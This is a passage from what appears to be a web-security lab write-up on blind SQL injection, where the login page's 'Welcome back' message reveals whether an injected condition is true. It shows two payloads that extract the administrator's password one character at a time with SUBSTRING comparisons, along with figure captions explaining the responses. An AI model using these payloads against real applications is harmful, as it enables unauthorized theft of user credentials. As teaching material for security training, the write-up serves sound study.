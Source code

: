 <figure><img src="../../../.gitbook/assets/image (100).png" alt=""><figcaption><p>Whereas injecting a false statement leads to the application not returning the Welcome Back message at all. </p></figcaption></figure>

Using the payload:

<mark style="color:yellow;">`' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1) > 'a`</mark>

<figure><img src="../../../.gitbook/assets/image (101).png" alt=""><figcaption><p>The Welcome Back message is returned, indicating that the first character of the password is greater than a</p></figcaption></figure>

Using the payload:

<mark style="color:yellow;">`' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1) > 'm`</mark>
